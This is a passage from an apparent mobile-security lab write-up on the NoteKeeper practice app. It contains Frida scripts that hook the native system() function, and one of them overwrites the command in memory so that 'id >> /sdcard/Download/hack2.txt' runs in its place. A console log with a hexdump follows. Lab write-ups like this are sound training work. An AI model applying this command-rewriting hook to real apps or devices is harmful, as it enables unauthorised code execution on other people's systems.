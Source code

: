 ```js
    
    test1();
})

function test1(){
    Interceptor.attach(Module.getExportByName(null, "system"), {
        onEnter: function (args) {
            var command = Memory.readUtf8String(args[0]);
            console.log("[*] system() called with command: " + command);
            console.log(hexdump(args[0],{offset: 0,length:48}));

        },
        onLeave: function (retval) {
            console.log("[*] system() returned with code: " + retval);
        }
    });
    
}
```

Aside from this, I found another method which I could utilize the frida functionality to overwrite the stack / `system` function input instead of abusing the buffer overflow. 

```js
Interceptor.attach(Module.getExportByName(null, "system"), {
    onEnter: function (args) {
        var command = Memory.readUtf8String(args[0]);
        console.log("[*] system() called with command: " + command);
        console.log(hexdump(args[0],{offset: 0,length:48}));

        var newCommand = "id >> /sdcard/Download/hack2.txt";
        Memory.writeUtf8String(args[0], newCommand);

        console.log("[+] Replaced with new command:", Memory.readUtf8String(args[0]));
        console.log(hexdump(args[0],{offset: 0,length:48}));


    },
    onLeave: function (retval) {
        console.log("[*] system() returned with code: " + retval);
    }
});
```

By using this `writeUtf8String`, I could just rewrite the stack / `system` function input.

```powershell
PS E:\Desktop\Android\frida-script> frida -U -N com.mobilehackinglab.notekeeper -l a.js
     ____
    / _  |   Frida 16.5.9 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to POCOPHONE F1 (id=d211a91c)
[POCOPHONE F1::com.mobilehackinglab.notekeeper ]-> MainActivity.parse is called: Title=qa
[*] system() called with command: Log "Note added at $(date)"
             0  1  2  3  4  5  6  7  8  9  A  B  C  D  E  F  0123456789ABCDEF
7ff3ad0970  4c 6f 67 20 22 4e 6f 74 65 20 61 64 64 65 64 20  Log "Note added
7ff3ad0980  61 74 20 24 28 64 61 74 65 29 22 00 00 00 00 00  at $(date)".....
7ff3ad0990  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```
